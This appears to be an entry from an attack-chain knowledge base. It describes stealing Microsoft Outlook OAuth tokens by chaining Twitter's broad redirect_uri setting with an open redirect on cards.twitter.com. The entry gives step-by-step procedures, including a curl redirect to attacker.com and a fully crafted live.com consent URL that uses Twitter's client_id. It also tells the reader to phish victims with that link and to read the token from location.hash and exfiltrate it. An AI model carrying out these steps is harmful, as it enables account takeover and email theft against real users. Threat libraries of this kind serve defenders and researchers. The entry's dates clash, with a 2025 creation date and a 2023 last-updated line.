

---
tags:
  - oauth
  - token-theft
  - open-redirect
  - misconfiguration
  - twitter
  - microsoft
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Credential Access]]'
commands:
  - '[[commands/initiate-microsoft-oauth-consent]]'
  - '[[commands/exploit-twitter-open-redirect]]'
  - '[[commands/extract-token-from-location-hash]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Trigger-OAuth-Flow-for-Contact-Import]]'
  - '[[procedures/Craft-Malicious-Redirect-URI-Using-Open-Redirect]]'
  - '[[procedures/Initiate-OAuth-Consent-with-Crafted-URI]]'
  - '[[procedures/Extract-OAuth-Token-from-URL-Hash]]'
step_count: 4
techniques:
  - '[[Steal Application Access Token]]'
  - '[[Credentials In Files]]'
  - '[[Drive-by Compromise]]'
description: >-
  A multi-stage attack exploiting OAuth misconfiguration in Twitter's Microsoft
  integration and an open redirect in Twitter Cards to steal OAuth access tokens
  for Outlook email access.
skill_level: intermediate
impact_level: high
id: c57df538-1507-4a0e-8802-bbaa601b3975
created_at: '2025-12-14T17:24:35.783Z'
updated_at: '2025-12-14T17:24:35.783Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Credential Access]]'
mitre_techniques:
  - '[[Steal Application Access Token]]'
  - '[[Credentials In Files]]'
  - '[[Drive-by Compromise]]'
---
# OAuth Token Theft via Twitter Open Redirect and Microsoft Redirect URI Misconfiguration

## Overview

This attack chain exploits a misconfigured OAuth redirect_uri in Twitter's application settings for Microsoft Outlook authentication, which broadly validates URIs matching http(s)://*.twitter.com/*. By chaining this with an open redirect vulnerability in Twitter's cards endpoint (https://cards.twitter.com/cards/18ce53y6aap/yyms), an attacker can redirect to arbitrary external sites. Double-encoding a fragment identifier (%2523) in the redirect_uri bypasses Microsoft's validation, allowing the OAuth access token to be appended to the URL hash after user authorization. If the user is already authorized, the token can be stolen with a single click, potentially granting access to the victim's emails by adjusting the OAuth scope (e.g., to Mail.Read).

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (relies on browser and URL crafting)

### Target Environment

- Web platform with access to Twitter and Microsoft OAuth endpoints
- Services: Microsoft Live/Outlook OAuth, Twitter Cards
- Tech stack: OAuth 2.0, JavaScript

### Initial Access Requirements

- User must be able to access Twitter's import contacts feature
- Victim must have prior authorization with Microsoft Outlook via Twitter
- Attacker controls a domain for final redirect (e.g., attacker.com)

## Detailed Attack Procedures

### Step 1: Trigger OAuth Flow for Contact Import
procedure: [[procedures/Trigger-OAuth-Flow-for-Contact-Import]]

**Objective**: Initiate the OAuth authorization flow for importing contacts from Microsoft Outlook without full re-authentication if the user is pre-authorized.

**Instructions**: Navigate to Twitter's import contacts page to start the OAuth process. This triggers the Microsoft authorization endpoint.

**Expected Output**: Redirect to Microsoft's consent page if not authorized, or direct to authorization if pre-authorized.

**Success Indicators**:
- OAuth flow initiates
- User reaches consent or authorization screen

### Step 2: Craft Malicious Redirect URI Using Open Redirect
procedure: [[procedures/Craft-Malicious-Redirect-URI-Using-Open-Redirect]]

**Objective**: Create a redirect_uri that exploits Twitter's open redirect endpoint to point to an attacker-controlled site while matching the twitter.com validation pattern.

**Instructions**: Use the open redirect endpoint https://cards.twitter.com/cards/18ce53y6aap/yyms, which redirects to arbitrary URLs. Append a double-encoded fragment (%2523) to form https://cards.twitter.com/cards/18ce53y6aap/yyms%2523, ensuring it validates under *.twitter.com/*.

Execute [[commands/exploit-twitter-open-redirect]] to test the redirect:

```bash
curl "https://cards.twitter.com/cards/18ce53y6aap/yyms%2523?redirect_to=http://attacker.com"
```

**Expected Output**: Redirect to http://attacker.com with the fragment preserved.

**Success Indicators**:
- Redirect occurs to external site
- Fragment encoding is maintained

### Step 3: Initiate OAuth Consent with Crafted URI
procedure: [[procedures/Initiate-OAuth-Consent-with-Crafted-URI]]

**Objective**: Embed the malicious redirect_uri into the OAuth consent URL to bypass validation and redirect post-authorization to the attacker's site with the token in the hash.

**Instructions**: Construct the full OAuth URL using Twitter's client_id and the crafted redirect_uri. Microsoft decodes %2523 to #, appending access_token to the hash.

Execute [[commands/initiate-microsoft-oauth-consent]] to start the flow:

```bash
curl "https://account.live.com/Consent/Update?ru=https://login.live.com/oauth20_authorize.srf%3flc%3d1033%26state%3dservice%253Dmsn2%2526start%253D2016-04-18%252021%253A10%253A34%2526trigger_event%253Dtrue%2526scope%3dwl.basic%2520wl.emails%2520wl.contacts_emails%26redirect_uri%3dhttps%253A%252F%252Fcards.twitter.com%252Fcards%252F18ce53y6aap%2523%252Fyyms%26client_id%3d000000004403A722%26response_type%3dcode%26contextid%3d02872644FC281255&mkt=EN-US&uiflavor=web&id=279469&client_id=000000004403A722&rd=twitter.com&scope=wl.basic+wl.emails+wl.contacts_emails&cscope="
```

Trick the user into clicking this link (e.g., via phishing).

**Expected Output**: Post-consent redirect to attacker's page with #access_token=TOKEN in URL.

**Success Indicators**:
- Consent granted with single click if pre-authorized
- Redirect includes token in hash

### Step 4: Extract OAuth Token from URL Hash
procedure: [[procedures/Extract-OAuth-Token-from-URL-Hash]]

**Objective**: On the attacker's controlled page, use JavaScript to read and exfiltrate the access_token from the URL fragment.

**Instructions**: Host a page on attacker.com that runs JavaScript to parse location.hash.

Execute [[commands/extract-token-from-location-hash]] in the browser console or embed in the page:

```javascript
console.log(location.hash);
```

Send the token to attacker's server via fetch or similar.

**Expected Output**: String like '#access_token=STOLEN_TOKEN' logged or exfiltrated.

**Success Indicators**:
- Token extracted and visible
- Token usable for API calls (e.g., email access)

## Attack Chain Summary

### Key Achievements

1. Bypassed OAuth redirect validation using broad twitter.com pattern
2. Chained open redirect to leak tokens in URL hash
3. Enabled single-click token theft for pre-authorized users
4. Potential for email access by scope modification

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Steal Application Access Token]] Steal Application Access Token
- [[Credentials In Files]] Credentials In Files (OAuth tokens)
- [[Drive-by Compromise]] Drive-by Compromise

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Credential Access]] Credential Access

---
*Last updated: 2023-10-01*
